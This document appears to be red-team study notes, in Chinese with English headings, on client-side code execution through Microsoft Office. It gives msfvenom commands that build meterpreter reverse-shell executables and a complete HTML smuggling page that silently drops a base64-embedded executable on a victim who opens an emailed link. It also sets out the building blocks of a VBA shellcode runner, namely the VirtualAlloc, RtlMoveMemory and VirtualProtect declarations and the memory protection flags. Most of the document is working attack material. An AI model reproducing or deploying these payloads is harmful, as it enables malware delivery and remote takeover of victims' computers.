# Microsoft Office Client Side Code Executtion
## Staged vs Non-staged Payloads
一般來說平常使用相關 Payload 框架，都會搭配可以使用弱點，也就是說弱點是拿來突破防禦機制，Payload可以說是維持存取的一種手段，維持存取的類型Payload分為
### 以下meterpreter為例:
#### Non-staged Payload (無階段性)
直接在記憶體中呼叫 執行完整的Payload
通常送過去的Payload 大小較大
Ex: windows/meterpreter_reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o non-staged.exe
```
#### Staged Payload (有階段性)
只送一小段 Payload 做接應
較穩定，且有其他功能
Ex: windows/meterpreter/reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o staged.exe
```
## HTML Smuggling 
想要在受害端機器上下載並執行相關的惡意程式，攻擊者會經常使用更謹慎的投放的方式。攻擊者可能將鏈接嵌入到電子郵件，當受害者閱讀電子郵件並存取網頁時，網頁自動下載惡意程式，這種行為就稱為HTML Smuggling
### Example
```
<html><body><script>	
function base64ToArrayBuffer(base64) { var binary_string = window.atob(base64); var len = binary_string.length; var bytes = new Uint8Array( len ); for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); } return bytes.buffer;}
var file = 'TVqQAAMAAAAEAAAA//8AALgAAAAAAA... (產生的base64 )
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'staged.exe'; var a = document.createElement('a');
document.body.appendChild(a); a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url; a.download = fileName; a.click();
window.URL.revokeObjectURL(url);
</script></body></html>
```
## Executing Shellcode in Word
### Calling Win32 APIs from VBA
#### C language
`BOOL GetUserNameA(LPSTR lpBuffer,LPDWORD pcbBuffer );`
#### VBA Invoke
`Private Declare Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long`
##### https://www.pinvoke.net/default.aspx/advapi32.getusername
##### EXAMPLE
```
Sub MyMacro()
Dim res As Long
Dim MyBuff As String * 256
Dim MySize As Long
Dim strlen As Long
MySize = 256
res = GetUserName(MyBuff, MySize)
strlen = InStr(1, MyBuff, vbNullChar) - 1
MsgBox Left$(MyBuff, strlen)
End Sub
```
### VBA Shellcode Runner
#### Setting Memory Page Parameter
```
Public Enum protectFlags
PAGE_NOACCESS = &H1
PAGE_READONLY = &H2
PAGE_READWRITE = &H4
PAGE_WRITECOPY = &H8
PAGE_EXECUTE = &H10
PAGE_EXECUTE_READ = &H20
PAGE_EXECUTE_READWRITE = &H40
PAGE_EXECUTE_WRITECOPY = &H80
PAGE_GUARD = &H100
PAGE_NOCACHE = &H200
PAGE_WRITECOMBINE = &H400
End Enum
```
#### VirtualAlloc
##### C language
`LPVOID VirtualAlloc( LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect );`
##### VBA Invoke
`Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr`
#### RtlMoveMemory
##### C language
`VOID RtlMoveMemory(VOID UNALIGNED *Destination,VOID UNALIGNED *Source,SIZE_T Length);`
##### VBA Invoke
`Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr`
#### VirtualProtect
##### C language
`BOOL VirtualProtect(LPVOID lpAddress,SIZE_T dwSize,DWORD  flNewProtect,PDWORD lpflOldProtect);`
##### VBA Invoke
`Private Declare PtrSafe Function VirtualProtect Lib "kernel32" (lpAddress As LongPtr, ByVal dwSize As LongPtr, ByVal flNewProtect As LongPtr, lpflOldProtect As LongPtr) As LongPtr`

